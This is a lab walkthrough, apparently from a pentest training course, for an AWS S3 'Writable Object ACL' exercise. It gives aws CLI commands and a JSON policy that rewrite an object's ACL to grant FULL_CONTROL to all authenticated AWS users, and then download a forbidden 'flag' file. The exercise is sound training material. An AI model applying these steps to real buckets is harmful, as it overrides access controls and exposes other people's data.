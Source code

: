 # Writable Object ACL

Check S3 buckets. `aws s3api list-buckets --profile PTAcademyJllerena | jq`
![image](https://user-images.githubusercontent.com/46797181/227685904-16c4cb71-95eb-4221-ad12-87bff5ea7361.png)

Check objects present in S3 bucket and try downloading them, nothice that a forbidden message is obtained 
```
aws s3api list-objects --bucket s3-secret-115329293798 --profile PTAcademyJllerena
aws s3 cp s3://s3-secret-115329293798/flag ./ --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/227686648-62c1192c-2cca-4b92-8c3d-875c35210e2e.png)

Check object ACL. `aws s3api get-object-acl --bucket s3-secret-115329293798 --key flag --profile PTAcademyJllerena | jq`

![image](https://user-images.githubusercontent.com/46797181/227687769-8d3626e4-8144-4746-af13-dd5b728f66e3.png)

Modify the output from above image and create a file with the following content

```
{    
  "Owner": {
    "DisplayName": "awsplayground+1663603152528",
    "ID": "b590f441d42fed7dc85ada8f975ed44187f82aa9b57c6bd3675b7097e6cee4b8"
  }, 
  "Grants": [
    {
      "Grantee": {
        "Type": "Group",
        "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
      },
      "Permission": "FULL_CONTROL"
    } 
  ]  
} 
```

Update the new ACL for the object and try downloading the object to verify that there are no longer restrictions. 

```
aws s3api put-object-acl --bucket s3-secret-115329293798 --key flag --access-control-policy file://policy.json --profile PTAcademyJllerena
aws s3 cp s3://s3-secret-115329293798/flag ./ --profile PTAcademyJllerena
cat flag

```
![image](https://user-images.githubusercontent.com/46797181/227689004-4127546d-2307-43a0-a324-07ccef36dbd9.png)

EXERCISE COMPLETED !!





